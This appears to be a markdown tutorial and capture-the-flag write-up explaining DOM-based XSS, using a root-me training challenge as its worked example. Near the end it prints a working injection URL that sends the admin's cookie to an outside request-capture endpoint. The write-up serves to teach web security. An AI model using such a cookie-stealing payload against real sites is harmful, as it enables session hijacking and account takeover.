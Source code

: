 ```yaml
---
title: XSS DOM BASED
description: Explanation of how DOM-Based XSS vulnerabilities work.
date: "2021-09-12T10:00:00+02:00"

---
```



# Introduction

**DOM-based** XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as eval() or innerHTML. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

## What is the DOM?
The Document Object Model (DOM) is a convention used to represent and work with objects in an HTML document (as well as in other document types).

All HTML documents have an associated DOM that consists of objects, which represent document properties from the point of view of the browser. When a client-side script is executed, it can use the DOM of the HTML page where the script runs. The script can access various properties of the page and change their values.


To deliver a DOM-based XSS attack, you need to place data into a source so that it is propagated to a sink and causes execution of arbitrary JavaScript.

## Important information :warning:
The most common source for DOM XSS is the URL, which is typically accessed with the window.location object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL.

In certain circumstances, such as when targeting a 404 page or a website running PHP, the payload can also be placed in the path. 

You can find more information about it [here](https://owasp.org/www-community/attacks/DOM_Based_XSS) or [in the portSwigger webpage](https://portswigger.net/web-security/cross-site-scripting/dom-based)

### Hands on! :fire:


#### The problem
In this example, we found ourselves in a challenge from root-me: a cybersec training website.

This challenge greets us with a game. This game requires us to input a number into a form, then it's compared to a random number. If it comes to be the same number, a green message appears, otherwise a red message appears.

We can check this behaviour by entering some random number and check the source with developer tools. For this example I will input the number **"5"**.

![xss dom image1](xssdom1.PNG)

#### Analysis
We can see in the screenshot above that the returned *red* answer, because our number is different than 71.043452......

Another **really** important thing to bear in mind is that our input appears reflected within the `script` tags, that means it's a nice candidate to inject malicious code, let's see if we can put some arbitrary code inside it.

#### Injection test 
Let's try to inject some Javascript `debugger`:
![xss dom image2](xssdom2.PNG)

And we can see that our code has been successfuly injected. 

#### Payload creation and execution 

So now, I'm going to inject a payload to steal the administrator's cookie, there is a report page where we assume the admin will try to answer every request we send him.

My payload is going to send a request to a public endpoint (It was called requestbin, now it's called pipedream, you can use any endpoint you want for sure), and concat the admin's cookie in the query param. Wait for some minutes untill we receive a response....
```
http://challenge01.root-me.org/web-client/ch32/index.php?number=%27;document.location=%22https://enrqxs92mtm1n.x.pipedream.net?cookie=%22.concat(document.cookie);%27
```

Aaand... there it is! 
![xss dom image 3](xssdom3.PNG)

We have captured our :sparkles: flag! :sparkles:

Thank you for your time and see you next time!

:smile: :sunset: